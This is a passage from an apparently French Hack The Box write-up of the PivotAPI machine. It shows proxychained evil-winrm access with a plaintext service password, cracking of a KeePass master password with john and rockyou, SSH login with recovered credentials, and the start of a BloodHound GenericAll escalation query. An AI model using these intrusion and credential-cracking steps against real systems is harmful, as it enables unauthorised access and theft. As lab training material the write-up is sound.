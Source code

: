 ```
[ProxyList]
socks5  127.0.0.1 1337
```

On peut maintenant se connecter en tant que svc_mssql sur le port WinRM et récupérer la database KeePass :

```bash
❯ proxychains4 -q evil-winrm -i PivotAPI.LicorDeBellota.htb -u svc_mssql -p '#mssql_s3rV1c3!2020'

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_mssql\Documents>
```

## Crack KeePass database

Après avoir testé du password reuse, on peut tenter de bruteforce le master password :

```bash
❯ keepass2john credentials.kdbx > keepass.hash
❯ john keepass.hash --wordlist=$(locate rockyou.txt)
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mahalkita        (credentials)
1g 0:00:00:00 DONE (2022-05-16 21:14) 4.166g/s 1066p/s 1066c/s 1066C/s alyssa..freedom
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

On ouvre la db :

![keepass_screen](https://i.imgur.com/8qfME3W.png)

On a des credentials pour se connecter en SSH sur le DC :

```
❯ sshpass -p 'Gu4nCh3C4NaRi0N!23' ssh 3v4Si0N@PivotAPI.LicorDeBellota.htb
```

## Exploit GenericAll in user object

Avec cette custom query neo4j : `MATCH p=shortestPath((c {owned: true})-[*1..5]->(s)) WHERE NOT c = s RETURN p`, on peut voir que :

![bh3](https://i.imgur.com/tnMcil6.png)


[127.0.0.1]: PS C:\> ls -R C:\Developers